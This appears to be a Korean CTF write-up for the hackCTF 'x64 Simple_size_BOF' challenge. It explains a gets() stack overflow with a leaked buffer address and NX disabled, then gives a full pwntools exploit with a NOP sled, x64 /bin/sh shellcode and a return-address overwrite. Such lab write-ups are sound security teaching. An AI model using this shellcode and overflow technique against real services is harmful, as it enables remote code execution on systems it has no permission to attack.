 ```yaml
---
layout: post
title:  "[hackCTF]x64 Simple_size_BOF"
date:   2020-02-11
---
```


hackCTF pwnable 여섯번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-6D30h]

  setvbuf(bss_start, 0LL, 2, 0LL);
  puts(&s); // s에 저장된 문자열을 출력한다
  printf("buf: %p\n", &v4); // v4의 주소를 출력한다
  gets(&v4); // stdin으로부터 문자열을 입력 받아 v4에 저장한다
  return 0;
}
```
<br>

정리해보자.<br><br>

***

| ret |            |
|:---:|:----------:|
| sfp |   (8byte)  |
| rbp |            |
| ... |            |
|  v4 | rbp-0x6D30 |

***
<br>

![0602](https://drive.google.com/uc?id=1IKf6P8UjdQnO0iOExB2Syd8_4ONi70Ve)  
NX 보호기법이 미적용되었으므로 stack에서 쉘코드를 실행시킬 수 있다.  gets로 v4에 쉘코드를 저장하고 ret을 v4의 시작주소로 덮어 문제를 해결하자.<br><br><br>
![0601](https://drive.google.com/uc?id=1OvYOaP63MM0QloMKUdMvTyWAvb09Ncue)  
이 때 ASLR 보호기법이 적용되어 파일을 실행할 때마다 주소가 변하므로 처음 v4의 주소를 출력하면 그 주소를 받아 payload를 완성해야 한다.<br><br>
목표 : 계속 변하는 v4의 주소로 ret을 덮는 payload 완성하기<br>
취약점 : gets(&v4)<br><br><br>

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3005)

p.recvuntil("buf: ") # "buf: "까지 받는다

buf = int(p.recv(14), 16) # 14바이트를 받고 16진수로 변환하여 buf에 저장

payload = "\x90"*0x9 # nop으로 일부 채우기

payload += "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05" # 쉘코드

payload += "\x90"*(0x6D30 - 0x20 + 0x8) # sfp까지 nop으로 채우기

payload += p64(buf) # 앞에서 받은 v4의 주소(buf) 추가

p.sendline(payload)

p.interactive()
```

## 결과
![0603](https://drive.google.com/uc?id=1YE2LhE9ENLXGPJCWHLNMffHGCiNN3kcr)
